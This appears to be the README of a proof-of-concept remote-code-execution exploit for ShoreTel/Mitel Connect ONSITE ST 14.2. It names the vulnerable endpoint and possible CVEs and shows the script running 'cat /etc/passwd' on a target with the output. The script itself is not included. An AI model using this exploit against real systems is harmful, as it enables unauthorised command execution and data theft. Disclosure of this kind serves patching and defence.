 # ShoreTel / Mitel Remote Code Execution
## Issue Explanation
There are multiple vulnerabilities in ShoreTel/Mitel Connect ONSITE ST 14.2 which, when chained together, result in remote code execution.

## Usage Example
Not sure this is really needed but I’ll include it anyway. 
```
# ./shoretel_rce.rb https://domain.com/ "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
<-- SNIP -->
```

### Caveat
I had access to a single device during the development of this PoC. As such, your system paths may be different and you may need to edit this script to fit your needs.

## Keywords for Search Engines
I am just adding this section to assist other people who are looking for an exploit.

* ShoreTel Version 19.49.5200.0 GA27 GA28
* CVE-2018-5782 (maybe)
* CVE-2017-16251 (maybe)
* ShoreTel Connect ONSITE ST 14.2 Remote Code Execution
* scripts/vsethost.php
